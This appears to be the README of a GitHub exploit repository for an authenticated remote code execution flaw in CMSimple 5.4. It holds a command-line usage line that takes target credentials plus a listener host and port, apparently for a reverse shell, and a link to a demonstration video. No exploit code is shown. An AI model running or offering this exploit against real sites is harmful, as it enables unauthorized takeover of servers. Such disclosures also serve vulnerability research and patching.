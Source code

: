 # CMSimple-5.4-Authenticated-RCE-
Cmsimple 5.4 - Remote Code Execution (RCE) (Authenticated)

Exploit Usage : cmsimpleRCE.py -url targetdomain.com -u username -p password -ip lhost -lp lport

PoC: https://www.youtube.com/watch?v=7EvncRsiHFU

[![Video](https://img.youtube.com/vi/7EvncRsiHFU/0.jpg)](https://www.youtube.com/watch?v=7EvncRsiHFU)

